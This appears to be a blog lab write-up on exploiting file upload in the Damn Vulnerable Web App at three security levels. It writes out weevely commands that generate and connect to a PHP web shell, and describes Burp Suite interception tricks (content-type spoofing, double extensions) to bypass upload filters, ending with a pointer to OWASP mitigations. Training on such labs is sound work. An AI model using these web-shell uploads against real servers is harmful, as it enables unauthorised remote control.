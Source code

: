 ```yaml
---
layout: post
title: Dam Vulnerable Web App File Upload
---
```


Exploiting the Dam Vulnerable Web App

# DVWA Upload LOW

When we upload a picture we see that is uploaded to http://10.0.2.4/dvwa/hackable/uploads/ .
Next we’re going to use a tool called weevely to generate php shell file to upload to the server.

weevely generate password /root/shell.php

Weevely is the name of the tool, generate creates the shell with a password called password and then stores it in the root folder under the name shell.php .
Next we take that shell and upload it, now we can see that it’s stored at http://10.0.2.4/dvwa/hackable/uploads/shell.php .  We then navigate to that page and now it’s activated so we go back to the console to access it.

weevely http://10.0.2.4/dvwa/hackable/uploads/shell.php password

[+] weevely 3.7.0

[+] Target:	10.0.2.4
[+] Session:	/root/.weevely/sessions/10.0.2.4/shell_1.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> 

Now we have access to the machine.
The full list of things we can do once we have access with weevely can be found here:
https://github.com/epinna/weevely3 .

# DVWA Upload MEDIUM

Now if we try to upload php files it doesn’t let us. 
To get around this we’re going to use burp suite by creating a new temporary project and configuring the browser to use burp suite as a proxy. 

If we navigate to the proxy tab and select intercept and turn intercept on once we’re on the file upload page. We rename the shell.php file to .jpg and upload it. 

Burp captures this request and we can see
-Disposition: form-data; name="uploaded"; filename="shell.jpg"

Content-Type: image/jpeg

Now we rename shell.jpg to shell.php but keep the content-type as image/jpeg. If you’re doing this after you’ve done the low security setting make sure you give it a different name.

Success we managed to upload shell.php to the server and now can access it with weevely the same way we did for the low setting.

#DVWA UPLOAD HIGH

If we try the same method again we can see that it doesn’t work. Now it’s checking the file type and the extension. We can still bypass this with burp suite by intercepting it. 
We know that it checks the content-type and the file extension. 

-Disposition: form-data; name="uploaded"; filename="shell.jpg"

Content-Type: image/jpeg

We can bypass this by modifying the shell.jpg to shell.php.jpg

#MITIGATION

Instead of writing out all the mitigations owasp provides a great source on this.

https://www.owasp.org/index.php/Unrestricted_File_Upload



